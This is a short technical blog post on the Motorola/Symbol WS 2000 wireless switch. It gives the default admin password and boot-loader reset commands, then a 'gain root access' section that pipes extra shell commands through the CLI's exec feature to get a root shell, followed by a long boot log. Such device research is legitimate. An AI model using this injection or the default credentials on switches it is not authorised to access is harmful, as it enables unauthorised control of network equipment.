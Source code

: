 ```yaml
---
title: "Motorola /  Symbol Wireless Switch WS 2000"
layout:     post
header-img: "img/post-bg-01.jpg"
---
```

<h2>Default password</h2><br />
username: admin
<p>password: symbol
<h2>Reset to factory default</h2><br />
<code>localhost login: NEW CFG BLOCK 0 : VALID<br />
NEW CFG BLOCK 1 : NOT VALID</code>
<p>WS 2000 Boot Firmware Version 2.2.3.0-020R<br />
Copyright(c) Symbol Technologies Inc. 2003. All rights reserved.
<p>Press escape key to run boot firmware ......
<p>boot> help
<p>boot> passwd default symbol<br />
boot> reset config<br />
boot> reset system
<p>resetting ...
<h2>Gain root access</h2><br />
WS 2000 Wireless Switch 2.2.3.0-020R<br />
Copyright (c) Symbol Technologies, Inc. 2003, 2004. All rights reserved.
<p>localhost login: admin<br />
Password:
<p><code>admin>system<br />
admin(system)>exec date | ls -alt /console<br />
drwxr-xr-x 1 root root 512 Jan 1 2003 .<br />
drwxr-xr-x 1 root root 512 Jan 1 2003 ..<br />
lrwxrwxrwx 1 root root 13 Jan 1 2003 arp -> /usr/sbin/arp<br />
lrwxrwxrwx 1 root root 22 Jan 1 2003 ccdiag -> /cellcontroller/ccdiag<br />
lrwxrwxrwx 1 root root 23 Jan 1 2003 ccstats -> /cellcontroller/ccstats<br />
-rwxr-xr-x 1 root root 2062 Jan 1 2003 cformat<br />
-rwxr-xr-x 1 root root 48 Jan 1 2003 cfumount<br />
-r-s--x--x 1 root root 36514 Jan 1 2003 cli<br />
lrwxrwxrwx 1 root root 9 Jan 1 2003 date -> /bin/date<br />
lrwxrwxrwx 1 root root 7 Jan 1 2003 df -> /bin/df<br />
lrwxrwxrwx 1 root root 11 Jan 1 2003 du -> /usr/bin/du<br />
-rwxr-xr-x 1 root root 2788 Jan 1 2003 ftp_cfg.sh<br />
-rwxr-xr-x 1 root root 2361 Jan 1 2003 ftp_core.sh<br />
lrwxrwxrwx 1 root root 14 Jan 1 2003 ifconfig -> /sbin/ifconfig<br />
lrwxrwxrwx 1 root root 12 Jan 1 2003 netstat -> /bin/netstat<br />
lrwxrwxrwx 1 root root 25 Jan 1 2003 peekshmem -> /cellcontroller/peekshmem<br />
lrwxrwxrwx 1 root root 9 Jan 1 2003 ping -> /bin/ping<br />
lrwxrwxrwx 1 root root 17 Jan 1 2003 tcpdump -> /usr/sbin/tcpdump<br />
-rwxr-xr-x 1 root root 2109 Jan 1 2003 tftp_cfg.sh<br />
lrwxrwxrwx 1 root root 20 Jan 1 2003 traceroute -> /usr/sbin/traceroute<br />
admin(system)>exec date | id<br />
uid=0(root) gid=100(users)<br />
</code>
<h2>Boot log</h2><br />
<code><br />
NEW CFG BLOCK 0 : VALID<br />
NEW CFG BLOCK 1 : NOT VALID</code>
<p>WS 2000 Boot Firmware Version 2.2.3.0-020R<br />
Copyright(c) Symbol Technologies Inc. 2003. All rights reserved.
<p>Press escape key to run boot firmware .............
<p>Power On Self Test
<p>testing ram : pass<br />
testing nor flash : pass<br />
testing nand flash : pass<br />
testing ethernet : pass
<p>Loading Linux Kernel<br />
Booting From 0x1160-0000 ...<br />
Uncompressing Linux............................................done.<br />
booting the kernel.<br />
Linux version 2.4.20_mvl31-ixdp4xx (root@mobion) (gcc version 3.3.1 (release/MontaVista 3.1)) #1 Mon June 7 10:00:00 PDT 2004<br />
CPU: XScale-IXP4xx/IXC11xx [690541c1] revision 1 (ARMv5TE)<br />
CPU: D undefined 5 cache<br />
CPU: I cache: 32768 bytes, associativity 32, 32 byte lines, 32 sets<br />
CPU: D cache: 32768 bytes, associativity 32, 32 byte lines, 32 sets<br />
Machine: Intel IXDP425 Development Platform<br />
On node 0 totalpages: 15360<br />
zone(0): 15360 pages.<br />
zone(1): 0 pages.<br />
zone(2): 0 pages.<br />
Kernel command line: mem=61440K console=ttyS1,19200 noinitrd rootflags=0 rootfstype=yaffs root=/dev/mtdblock0<br />
Calibrating delay loop... 532.48 BogoMIPS<br />
Memory: 59284KB available (1160K code, 237K data, 60K init)<br />
XScale cache_lock_init called<br />
Calling consistent alloc<br />
low_level_page initialized<br />
low_level_page @ 0xc4000000<br />
icache_lock_fn @ 0xc4000080<br />
dcache_lock_fn @ 0xc40000a0<br />
icache_unlock_fn @ 0xc4000098<br />
dcache_unlock_fn @ 0xc40000f0<br />
Initializing TLB locking<br />
TLB locking initialized<br />
Mount-cache hash table entries: 1024 (order: 1, 8192 bytes)<br />
Buffer-cache hash table entries: 1024 (order: 0, 4096 bytes)<br />
Page-cache hash table entries: 16384 (order: 4, 65536 bytes)<br />
POSIX conformance testing by UNIFIX<br />
Initializing RT netlink socket<br />
Starting kswapd<br />
Disabling the Out Of Memory Killer<br />
pty: 256 Unix98 ptys configured<br />
Creating 3 MTD partitions on "NAND 64MiB 3,3V":<br />
0x00000000-0x03c00000 : "SPIA flash partition 1"<br />
0x03c00000-0x03fe0000 : "SPIA flash partition 2"<br />
0x03fe0000-0x04000000 : "SPIA flash partition 3"<br />
NetWinder Floating Point Emulator V0.95 (c) 1998-1999 Rebel.com<br />
VFS: Mounted root (yaffs filesystem) readonly.<br />
serial console detected. Disabling virtual terminals.<br />
console=/dev/console<br />
init started: BusyBox v0.60.3 (2004.5.6-12:00 +0000) multi-call binary<br />
Starting pid 9, console /dev/console: '/etc/init.d/rcS'<br />
Activating swap...<br />
Mounting local filesystems...<br />
/dev/shm on /var/log type tmpfs (rw,size=512k)<br />
/dev/mtdblock1 on /save type yaffs (rw)<br />
Initializing random number generator... done.<br />
rm: cannot remove `/var/run/*.pid': No such file or directory<br />
Using cf.o<br />
Starting automount:[ OK ]<br />
Using cfgstat.o<br />
Testing Shadow Flash...passed<br />
Shadow Flash Init Test Passed<br />
Using lnkstat.o<br />
Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/drivers/ixp400/ixp400.o<br />
Using throttle.o<br />
Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/drivers/net/mobion_eth.o<br />
Initializing IXP425 NPE Ethernet driver software v. 1.1<br />
CPU clock speed (approx) = 532 MHz
<p>Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/net/bridge/bridge.o<br />
Using shmemdev.o<br />
Using pktdrvr.o
<p>Starting Apache....<br />
start /apache/httpd<br />
Starting portmap....<br />
Starting inetd....<br />
Loading drivers ...<br />
Using igateway.o<br />
Using dhpktdrv.o<br />
Using drvpppoe.o<br />
Using l2tpdrv.o<br />
Using pptpdrv.o<br />
Using tcpmssmangler.o<br />
Starting iGateway Apps(1)....<br />
Starting iGateway Apps(2)....<br />
Using switch.o<br />
Starting Wireless Switch....<br />
Configuring iGateway....<br />
Creating config files....<br />
Starting SSHD....<br />
Starting snmpd:
<p>Starting keepalived....<br />
Starting Message Handler daemon<br />
Using led.o<br />
Starting pid 366, console /dev/console: '/sbin/agetty'<br />
Starting pid 367, console /dev/console: '/sbin/agetty'
<p>WS 2000 Wireless Switch 2.2.3.0-020R<br />
Copyright (c) Symbol Technologies, Inc. 2003, 2004. All rights reserved.
<p>localhost login: admin<br />
Password:<br />
Password is same as default password, please change the password<br />
Enter new password:<br />
Verify new password:<br />
Authentication tokens updated successfully<br />
Welcome to Symbol Technologies' WS 2000 Wireless Switch
<p>admin>
